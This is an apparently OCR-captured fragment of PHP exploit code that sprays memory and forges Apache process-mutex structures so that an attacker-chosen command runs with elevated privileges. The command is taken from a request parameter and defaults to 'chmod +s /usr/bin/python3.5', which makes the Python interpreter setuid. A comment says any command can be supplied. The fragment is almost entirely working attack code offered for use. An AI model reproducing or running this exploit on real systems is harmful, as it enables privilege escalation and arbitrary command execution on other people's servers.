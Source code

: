 	$spray_middle = (int) (($spray_min + $spray_max) / 2);
	$bucket_index_middle = (int) (
		- ($all_buckets - $spray_middle) /
		$size_prefork_child_bucket
	);

	#
	# Build payload
	#

	# A worker_score structure was kept empty to put our payload in
	$payload_start = $spray_min - $size_worker_score;

	$z = ptr2str(0);

	# Payload maxsize 264 - 112 = 152
	# Offset 8 cannot be 0, but other than this you can type whatever
	# command you want
	$bucket = isset($_REQUEST['cmd']) ?
		$_REQUEST['cmd'] :
		"chmod +s /usr/bin/python3.5";

	if(strlen($bucket) &gt; $size_worker_score - 112)
	{
		o(
			'Payload size is bigger than available space (' .
			($size_worker_score - 112) .
			'), exiting.'
		);
		exit();
	}
	# Align
	$bucket = str_pad($bucket, $size_worker_score - 112, "\x00");

	# apr_proc_mutex_unix_lock_methods_t
	$meth = 
	    $z .
	    $z .
	    $z .
	    $z .
	    $z .
	    $z .
		# child_init
	    ptr2str($addresses['zend_object_std_dtor'])
	;
